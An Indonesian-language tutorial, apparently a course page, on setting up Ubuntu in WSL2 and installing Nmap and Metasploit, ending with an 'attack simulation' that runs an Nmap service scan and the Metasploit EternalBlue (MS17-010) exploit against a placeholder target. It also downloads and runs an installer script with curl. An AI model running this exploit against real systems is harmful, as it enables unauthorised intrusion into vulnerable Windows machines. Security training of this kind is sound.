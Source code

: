 # **Hands-On: Instalasi Ubuntu WSL2 untuk Double OS**

#### **Langkah 1: Aktifkan WSL2 di Windows**
1. Buka PowerShell sebagai Administrator.
2. Jalankan perintah berikut:
   ```powershell
   wsl --install
   ```
3. Restart komputer Anda.

---

#### **Langkah 2: Instal Ubuntu di WSL2**
1. Buka Microsoft Store.
2. Cari "Ubuntu" dan pilih versi terbaru.
3. Klik "Install" dan tunggu hingga selesai.
4. Setelah instalasi selesai, buka Ubuntu dari Start Menu.

---

#### **Langkah 3: Konfigurasi Ubuntu WSL2**
1. Setelah pertama kali membuka Ubuntu, buat username dan password.
2. Update sistem:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

---

#### **Langkah 4: Instal Tools Hacking di Ubuntu WSL2**
1. Instal Nmap:
   ```bash
   sudo apt install nmap
   ```
2. Instal Metasploit Framework:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod +x msfinstall
   ./msfinstall
   ```

---

#### **Langkah 5: Simulasi Serangan Dasar di Ubuntu WSL2**
- **Nmap Scanning**:
  ```bash
  nmap -sV <target_IP>
  ```
- **Metasploit Framework**:
  ```bash
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS <target_IP>
  exploit
  ```
